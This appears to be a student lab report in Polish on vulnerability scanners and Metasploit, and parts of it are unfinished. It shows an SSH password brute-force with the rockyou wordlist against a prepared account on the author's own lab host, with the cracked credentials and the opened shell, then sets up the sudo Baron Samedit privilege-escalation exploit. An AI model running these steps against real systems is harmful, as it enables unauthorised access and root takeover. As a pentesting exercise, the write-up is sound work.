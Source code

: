 #+TITLE: Sprawozdanie - Analiza podatności opragromwania
#+LANGUAGE: pl
#+LATEX_HEADER: \usepackage[AUTO]{babel}
#+LATEX_HEADER: \usepackage[margin=1in]{geometry}

* Skaner podatności oprogramowania
Skanery podatności oprogramowania to zautomatyzowanie narzędzia które skanują programy (aplikacjie sieciowe itp.) by wyszukać najczęsciej spotykane wektory ataku. Nazywane sa dynamicznymi gdyż głownie operują na podstawie  wykonania ataku na działająca usługe lub system. Do tego typu często używanych ataków należa m.in:
+ SQL injection
+ XSS (cross site scripting)
+ XSRF (cross site request forgery)
+ Command Injection
** Licencjowanie
  Zwykle jest to oprogramowanie wspomagane poprzez społeczeństwo używające licencji otwartego oprogramowania (apache, MIT) lub /copyleftowych/ licencji wolnego oprogramowania (GPL,BSD 3 clause) albo sa wspierane jako produkt przez firme oferujące usługi zawarte w takim skanerze. Część tych produktów ma również darmową wersję (czasami rozwijane jako /community/ używając powyższych licencji).
** Funkcjonalność
Skanery te można podzielić na takie które
* Metasploit Framework
Metasploit jest jednym z bardziej zaawansowanych (i rozległych) narzędzi do pentestowania.



Niestety z braku projektów

** Instalacja
Moja dystrybucja systemu GNU/linux (ArchLinux) oferuje paczkę Metasploit w repozytorium. Metasploit wymaga tylko konfiguracji rvm (ruby) oraz załozenia bazy danych postgres.
** Bruteforce ssh
W tym przypadku spreparowalem konto na systemie który bedzie celem penetracji.
#+begin_src 

  #useradd msfexploit
  #passwd   #hasło zostało ustawione na password1

#+end_src

Na maszyne z metasploit pobrałem również popularny plik słownikowy rockyou.txt zawierający najczęsciej pojawiające się hasła.

#+begin_export latex
{\scriptsize
#+end_export
#+begin_src bash

msf6 auxiliary(scanner/ssh/ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting          Required  Description
   ----              ---------------          --------  -----------
   BLANK_PASSWORDS   false                    no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                        yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                    no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                    no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                    no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                     no        Skip existing credentials stored in the current database (Acc
                                                        epted: none, user, user&realm)
   PASSWORD                                   no        A specific password to authenticate with
   PASS_FILE         ~/Downloads/rockyou.txt  no        File containing passwords, one per line
   RHOSTS            servbuntu.lan            yes       The target host(s), see https://github.com/rapid7/metasploit-
                                                        framework/wiki/Using-Metasploit
   RPORT             22                       yes       The target port
   STOP_ON_SUCCESS   true                     yes       Stop guessing when a credential works for a host
   THREADS           1                        yes       The number of concurrent threads (max one per host)
   USERNAME          msfexploit               no        A specific username to authenticate as
   USERPASS_FILE                              no        File containing users and passwords separated by space, one p
                                                        air per line
   USER_AS_PASS      false                    no        Try the username as the password for all users
   USER_FILE                                  no        File containing usernames, one per line
   VERBOSE           false                    yes       Whether to print output for all attempts

msf6 auxiliary(scanner/ssh/ssh_login) >
#+end_src
#+begin_export latex
}
#+end_export

Po paru minutach metasploit znalazł hasło i stworzył "sesje" którą mozna podać innym modułom które mogą posłużyć naprzyklad do podniesienia uprawnien.

#+begin_src bash

msf6 auxiliary(scanner/ssh/ssh_login) > exploit

[*] fdd3:f3e5:50a8::23d:22 - Starting bruteforce
[+] fdd3:f3e5:50a8::23d:22 - Success: 'msfexploit:password1' 'uid=1004(msfexploit) gid=1004(msfexploit) grupy=1004(msfexploit) Linux servbuntu 5.11.0-40-generic #44~20.04.2-Ubuntu SMP Tue Oct 26 18:07:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 4 opened ([fdd3:f3e5:50a8::dd4]:35571 -> [fdd3:f3e5:50a8::23d]:22) at 2021-12-09 05:45:26 +0100
[*] Scanned 1 of 2 hosts (50% complete)
[*] 192.168.1.200:22 - Starting bruteforce
[*] Scanned 1 of 2 hosts (50% complete)
[*] Scanned 1 of 2 hosts (50% complete)
[*] Scanned 1 of 2 hosts (50% complete)
[*] Scanned 1 of 2 hosts (50% complete)
[*] Scanned 2 of 2 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_login) >

#+end_src

** Sudoedit

Następnie używając poprzednio utworzonej sesji metasploit wykona atak na stara wersje sudo na niezaktualizowanym systemie ubuntu 20.04

#+begin_src bash

  msf6 exploit(linux/local/sudo_baron_samedit) > use payload/linux/x64/exec
  msf6 payload(linux/x64/exec) > set cMD "touch /home/msfexploit/here.txt"
  cMD => touch /home/msfexploit/here.txt
  msf6 payload(linux/x64/exec) > use payload/linux/x64/exec
  msf6 payload(linux/x64/exec) > use exploit/linux/local/sudo_baron_samedit

#+end_src
